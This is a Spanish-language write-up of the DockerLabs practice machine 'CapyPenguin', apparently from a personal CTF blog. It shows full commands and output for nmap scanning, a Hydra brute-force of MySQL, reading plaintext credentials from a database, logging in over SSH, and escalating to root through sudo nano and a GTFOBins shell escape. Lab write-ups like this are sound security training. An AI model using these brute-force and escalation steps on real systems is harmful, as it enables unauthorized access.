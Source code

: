 ```yaml
---
title: CapyPenguin Writeup - DockerLabs
date: 2024-08-09
categories: [WriteUps, DockerLabs]
tags: [Linux, Easy, DockerLabs]
img_path: /assets/img/dck/capy_penguin/
image: /assets/img/dck/capy_penguin/capy_penguin.png
---
```


Explotamos una vulnerabilidad en el servicio MySQL para obtener credenciales de acceso. Con estas credenciales, accedimos a la base de datos y obtuvimos información de usuario, que usamos para iniciar sesión en el sistema a través de SSH. Finalmente, aprovechamos un comando con privilegios elevados en `nano` para ejecutar una shell de root y obtener control total de la máquina.

## Reconocimiento
---
Realizamos un escaneo de puertos en la máquina objetivo utilizando `nmap` para identificar los servicios en ejecución.

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
_______________________________________________________________________
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 64
80/tcp   open  http    syn-ack ttl 64
3306/tcp open  mysql   syn-ack ttl 64
```

---
Los puertos identificados son **22 (SSH)**, **80 (HTTP)** y **3306 (MySQL)**. A continuación, realizamos un escaneo más detallado en estos puertos para obtener información adicional sobre los servicios y sus versiones.

```bash
nmap -sCV -p22,80,3306 172.17.0.2 -oN targeted 
_______________________________________________________________________
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9e:6a:3f:89:de:9d:05:d9:94:32:73:8d:31:e0:a5:eb (ECDSA)
|_  256 e7:ef:4f:4a:25:86:c9:55:b0:88:0a:8c:79:03:d0:9f (ED25519)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Web de Capybaras
|_http-server-header: Apache/2.4.52 (Ubuntu)
3306/tcp open  mysql   MySQL 5.5.5-10.6.16-MariaDB-0ubuntu0.22.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.6.16-MariaDB-0ubuntu0.22.04.1
|   Thread ID: 35
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, Speaks41ProtocolOld, IgnoreSigpipes, FoundRows, SupportsTransactions, LongColumnFlag, IgnoreSpaceBeforeParenthesis, ODBCClient, ConnectWithDatabase, SupportsLoadDataLocal, SupportsCompression, InteractiveClient, Speaks41ProtocolNew, DontAllowDatabaseTableColumn, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: Hmof0ZTw|*X^NLqtr_fd
|_  Auth Plugin Name: mysql_native_password
```
## Enumeración
---
Dado que el puerto 80 está abierto y ejecutando un servidor HTTP, exploramos la página web en busca de información útil o posibles puntos de entrada.

![capy_penguin-1](/assets/img/dck/capy_penguin/capy_penguin-1.png)

---
Exploramos la página web y encontramos referencias a un usuario potencialmente válido, **capybarauser**. Además, se menciona que la contraseña está en las últimas palabras del diccionario **rockyou.txt**. Para facilitar la búsqueda, invertimos el contenido del archivo usando `tac`.

```bash
tac /usr/share/wordlists/rockyou.txt > RockyouInvertido.txt
```
## Explotación
---
Con la información recopilada, realizamos un ataque de fuerza bruta al servicio MySQL utilizando `Hydra`, intentando acceder con el usuario **capybarauser** y el diccionario invertido.

```bash
hydra -l capybarauser -P RockyouInvertido.txt mysql://172.17.0.2 -t 4
_______________________________________________________________________
[DATA] attacking mysql://172.17.0.2:3306/
[3306][mysql] host: 172.17.0.2   login: capybarauser   password: ie168
1 of 1 target successfully completed, 1 valid password found
```
---
El ataque fue exitoso, y encontramos las credenciales. Ahora nos conectamos a la base de datos MySQL utilizando las credenciales obtenidas.

```bash
mysql -h 172.17.0.2 -u capybarauser -pie168
_______________________________________________________________________
MariaDB [(none)]> 
```
---
Una vez dentro de MySQL, comenzamos la enumeración de las bases de datos disponibles.

```sql
MariaDB [(none)]> SHOW DATABASES;
_______________________________________________________________________
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| pinguinasio_db     |
| sys                |
+--------------------+
5 rows in set (0.003 sec)
```
---
Encontramos la base de datos **pinguinasio_db**, y dentro de ella, identificamos la tabla **users**.

```sql
MariaDB [(none)]> USE pinguinasio_db;
--------------------------------------------------
MariaDB [pinguinasio_db]> SHOW TABLES;
_______________________________________________________________________
+--------------------------+
| Tables_in_pinguinasio_db |
+--------------------------+
| users                    |
+--------------------------+
1 row in set (0.000 sec)
```
---
Exploramos el contenido de la tabla **users** para obtener más información.

```sql
MariaDB [pinguinasio_db]> SELECT * FROM users;
_______________________________________________________________________
+----+-------+------------------+
| id | user  | password         |
+----+-------+------------------+
|  1 | mario | pinguinomolon123 |
+----+-------+------------------+
1 row in set (0.000 sec)
```
---
Encontramos a un usuario llamado **mario** con la contraseña **pinguinomolon123**. Con las credenciales obtenidas, intentamos conectarnos al servidor mediante SSH.

```bash
ssh mario@172.17.0.2
mario@172.17.0.2's password: pinguinomolon123
_______________________________________________________________________
mario@54bec2b5e6ff:~$ 
```
---
Logramos acceder a la máquina objetivo. Ahora, preparamos la TTY para trabajar cómodamente en la consola.

```bash
script /dev/null -c bash
# Presionamos "Control + Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 41 columns 183
```
## Escalada de Privilegios
---
Para la escalada de privilegios, listamos los comandos que el usuario puede ejecutar con privilegios elevados.

```bash
mario@54bec2b5e6ff:~$ sudo -l
_______________________________________________________________________
    (ALL : ALL) NOPASSWD: /usr/bin/nano
```
---
Vemos que podemos ejecutar **nano** como root sin proporcionar contraseña. Utilizamos [GTFObins](https://gtfobins.github.io/) para determinar el procedimiento a seguir.

```bash
sudo nano
# Adentro de Nano presionamos Ctrl+R y luego Ctrl+X
reset; bash 1>&0 2>&0
```

Logramos obtener una shell como root en la máquina objetivo.
```bash
root@54bec2b5e6ff:/home/mario# whoami
_______________________________________________________________________
root
```